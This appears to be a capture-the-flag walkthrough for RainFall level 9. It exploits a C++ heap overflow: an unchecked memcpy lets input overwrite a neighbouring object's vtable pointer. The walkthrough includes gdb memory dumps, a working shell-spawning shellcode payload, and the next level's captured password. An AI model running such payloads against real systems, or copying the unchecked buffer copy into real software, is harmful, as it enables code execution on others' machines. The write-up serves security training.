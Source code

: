 # Level 9

## Answer
Our CPP source code generates the same assembly code as the original binary. Compile it as follows:
```
g++ -fno-stack-protector source.c
```

Let's take a look at the source code:
```cpp
#include <cstring>
#include <cstdlib>

class N
{
private:
    // int vtable;
    char annotation[100];
    int nbr;

public:
    N(int val) : nbr(val) {}

    void setAnnotation(char *ann) { std::memcpy(this->annotation, ann, std::strlen(ann)); }

    virtual int operator+(N &other) { return this->nbr + other.nbr; }
    virtual int operator-(N &other) { return this->nbr - other.nbr; }
};

int main(int argc, char **argv)
{
    if (argc <= 1)
        exit(1);

    N *ptr1 = new N(5);
    N *ptr2 = new N(6);

    N &ref1 = *ptr1;
    N &ref2 = *ptr2;

    ref1.setAnnotation(argv[1]);

    return ref2 + ref1;
}
```

Let's focus on the `main` function. It reads input from the command line and then copies it to the `annotation` buffer using `memcpy`. Although `memcpy` is generally considered safe, in this case, we're copying the input without checking its size, which can lead to a buffer overflow. The `setAnnotation` function is called on the first object, allowing us to overflow the first object's buffer and potentially reach the second object's VTable address.

The VTable contains pointers to the virtual functions of the class. When a virtual function is called, the program looks up the VTable to find the address of the function to call. Therefore, by overwriting the VTable pointer, we can manipulate the virtual function call.
> Learn more about Vtables [here](https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/).

If we overwrite the VTable pointer with the address of a function or location of our choice, the program will jump to that address instead of the VTable. Then, it will perform another jump, thinking it's jumping to the function pointed to by the VTable. However, it will actually be jumping to our address, allowing us to execute arbitrary code.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
level9@RainFall:~$ ltrace ./level9 test
[...]
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a008 #ptr1
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a078 #ptr2
[...]
```
The `_Znwj` function creates a new `N` object. We can see our two objects are allocated at addresses `0x804a008` and `0x804a078` which are 112 bytes apart.

We assume the following memory layout for each object:  
`[vtable (4 bytes)] [annotation (100 bytes)] [value (4 bytes)] [padding (4 bytes)]`.

Let's confirm our assumptions with `gdb`:
```bash
# Break at the setAnnotation function
(gdb) break _ZN1N13setAnnotationEPc
Breakpoint 1 at 0x8048714

# Run the program with a 112 bytes long input
(gdb) run `python -c 'print("A" * 112)'`
Starting program: /home/user/level9/level9 `python -c 'print("A" * 112)'`

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) x/56wx 0x804a008
# This is ptr1
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000005 is the value of nbr
# 0x00000071 is the value of the padding
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
# This is ptr2
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000006 is the value of nbr
# 0x00020f21 is the value of the padding
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21

# Continue execution
(gdb) step
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()

# As expected, the vtable pointer is overwritten with the input
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x41414141      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

Our assumptions are correct, so to reach the VTable pointer of `ptr2`, we'll need to write 108 bytes of padding. Anything written after that will overwrite the VTable pointer.

Let's craft our payload:
```
address of the shellcode + shellcode + padding + address pointing to the shellcode address

0x0804a008 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90"*(108-4-4-21) + 0x0804a00c

-4 bytes for the address of the shellcode
-4 bytes for the address pointing to the shellcode address
-21 bytes for the shellcode
```

As mentioned before, we'll have to jump twice to reach the shellcode. The first jump is to get to the shellcode address, and the second jump is to get to the shellcode itself.

Let's run our payload:
```bash
level9@RainFall:~$ ./level9 `python -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\x90" * 83 + "\x08\x04\xa0\x0c"[::-1])'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

We are now bonus0! Let's move on to the next level.
